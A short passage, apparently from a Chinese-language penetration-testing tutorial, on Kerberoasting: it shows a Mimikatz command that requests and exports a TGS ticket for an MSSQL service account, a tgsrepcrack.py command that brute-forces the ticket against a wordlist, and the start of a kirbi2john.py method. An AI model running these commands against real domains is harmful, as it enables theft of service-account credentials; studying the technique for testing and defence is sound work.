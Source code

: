 ### 利用 Mimikatz 进行攻击

#### 使用 Mimikatz 请求 SPN 服务并且导出 TGS 票据

```bash
mimikatz.exe "kerberos::ask /target:MSSQLSvc/win7.rootkit.org:1433" "kerberos::list /export" exit
```

[![](assets/1708919803-d4d82fbeb93def4027ba9431cfcbcd7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142107-e6d8b240-ce25-1.png)

#### 对票据进行暴力破解

方法 1：使用 `tgsrepcrack.py` 进行破解

```bash
python tgsrepcrack.py pass.txt tgs.kirbi
```

[![](assets/1708919803-2b87a0113d641f40f3bf2ce6ec82b0f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142113-ea80c748-ce25-1.png)

方法 2：使用 `kirbi2john.py` 将票据文件转换为`hash`值进行暴力破解
